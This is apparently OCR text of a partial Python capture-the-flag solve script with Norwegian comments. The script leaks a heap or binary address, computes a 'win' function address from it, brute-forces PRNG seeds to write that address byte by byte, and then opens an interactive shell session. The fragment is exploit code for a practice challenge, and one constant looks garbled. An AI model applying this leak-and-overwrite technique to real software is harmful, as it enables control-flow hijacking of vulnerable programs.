 ```py
create("u32") # 20: offset
create("u32") # 21: for å endre på
# remove(20)
# nå er den andre blitt nr 20 (fra 21)

# 5. print :)
leak = print_elements_leak()
print("leak", hex(leak))

# remove for testing with own binary
# assert hex(leak).endswith("210")

# our: ..210
# win: ..f60
# win = leak & 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF000
# win = leak | 0x060
win = int(hex(leak)[:-3] + "f60", 16)
print("win", hex(win))

depth = 8
for b in win.to_bytes(8, byteorder="little"):
    for x in itertools.product("abcdefg", repeat=4):
        x = "".join(x)
        x = x.encode()

        x32 = int.from_bytes(x, byteorder="little")
        set_state(x32)

        guess = [next_char() for _ in range(depth)]

        if guess[-1] != b:
            continue

        print(x, [f"{g:x}" for g in guess])

        write2file(RANDOM_PATH, x)
        # io.interactive()
        reset()

        pause()

        for _ in range(depth):
            create("char")
        
        depth -= 1
        
        break


# print([f"{g:x}" for g in guess])
# for _ in range(30):
#     create("char")

io.interactive()
```
